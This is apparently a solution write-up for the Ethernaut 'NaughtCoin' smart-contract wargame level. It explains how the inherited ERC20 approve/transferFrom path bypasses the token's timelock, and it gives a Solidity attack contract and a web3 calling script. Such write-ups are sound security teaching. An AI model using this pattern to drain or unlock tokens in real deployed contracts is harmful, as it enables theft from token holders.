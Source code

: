 in ERC20 it is possible to approve another spender (`approve`) to transfer from our balance using `transferFrom` which isn't overriden in NaughtCoin

```
interface NaughtCoin {
    function transferFrom(
        address sender,
        address recipient,
        uint256 amount
    ) external returns (bool);
}

contract HackNaughtCoin {
    function hack(address instance, address player,  address recipient, uint256 amount) public {
        NaughtCoin coin =  NaughtCoin(instance);
        coin.transferFrom(player, recipient, amount);
    }
}
```

```
const balance = await contract.balanceOf(player);
await contract.approve('<contract address>', balance);

const abi = ...;
hackNaughtCoinContract = new web3.eth.Contract(abi, '<contract address>');
hackNaughtCoinContract.methods.hack(instance, player,  ethernaut.address, balance).send({ from: player });
```
